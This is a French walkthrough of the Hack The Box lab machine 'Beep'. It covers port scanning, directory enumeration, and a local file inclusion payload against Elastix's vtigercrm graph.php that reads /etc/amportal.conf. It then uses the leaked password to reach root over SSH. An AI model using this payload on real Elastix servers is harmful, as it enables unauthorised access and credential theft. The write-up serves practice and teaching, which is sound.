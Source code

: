 # FootHold

La première chose que je fais que je m'attaque à une box HTB c'est d'ajouter la résolution de nom <box>.htb à mon fichier /etc/hosts:

`echo "10.129.152.59	beep.htb"`

## Enumération des ports 

Scannons d'abords tout les ports:

`nmap 10.129.151.94 -p-` 

```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
944/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Nous effectuons maintenant un scan plus complet sur les ports désignés (option -p):

`nmap 10.129.151.94 -p 22,25,80,110,111,143,443,944,993,995,3306,4190,4445,4559,5038,10000 -A `

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.151.94/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2021-05-25T14:38:08+00:00; 0s from scanner time.
944/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## Site Web http:// deep.htb  et https:// deep.htb

Le site force l'usage d'HTTPS, il n'y a donc "rien à voir" sur le port 80 et nous sommes redirigés vers le port 443.

Il s'agit d'Elastix: 
![elastix](_ressource/Screenshot_20210526_095805.png)

### Enumération Web 

Pour se faire, j'utilise gobustrer, que je trouve très puissant (en terme de rapidité) et très complet (en termes d'options).

```
# Version "complete" installé via Github
gobuster dir -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k

# Version "short" installé via apt

gobuster -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k
```

_NB: Ne pas oublier l'option -k qui permet d'utiliser le mode "insecure" et donc d'ingorer les certificats SSL du site HTTPs._

```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

Après avoir fouillé un peu partout il ne semble pas y avoir de choses intéressantes à première vue.


### Recherche de faille:

Lorsqu'il s'agit de rechercher une faille, j'aime utiliser l'outil "searchsploit" disponible sur Kali.

`searchsploit elastix`

Parmis les failles proposés, celle qui me semble pour l'instant intéressante est la (LFI sur le graph.php)[https://www.exploit-db.com/exploits/37637].

> LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

On se rend donc sur la page: https://deep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

L'affichage n'est pas optimal, pour y voit plus clair: `CTRL + U` pour afficher le code source

(img)[_ressource/ctrl.png]

On voit que le mot de passe suivant est utilisé un peu partout: **jEhdIekWmdjE**


# Root

## Accès SSH

Lorsque qu'on essaie de se connecter à l'utilisateur root via ssh (et le mot de passe: jEhdIekWmdjE ) un message d'erreur apparaît:

```
ssh root@beep.htb

Unable to negotiate with 10.129.152.59 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`
```

Pour régler ce problème:

`echo "KexAlgorithms +diffie-hellman-group1-sha1" >> ~/.ssh/config`

**NB**: On n'oubliera pas d'effacer ce fichier/cette ligne à la fin du CTF.

Il est maintenant possible de se connecter en root.
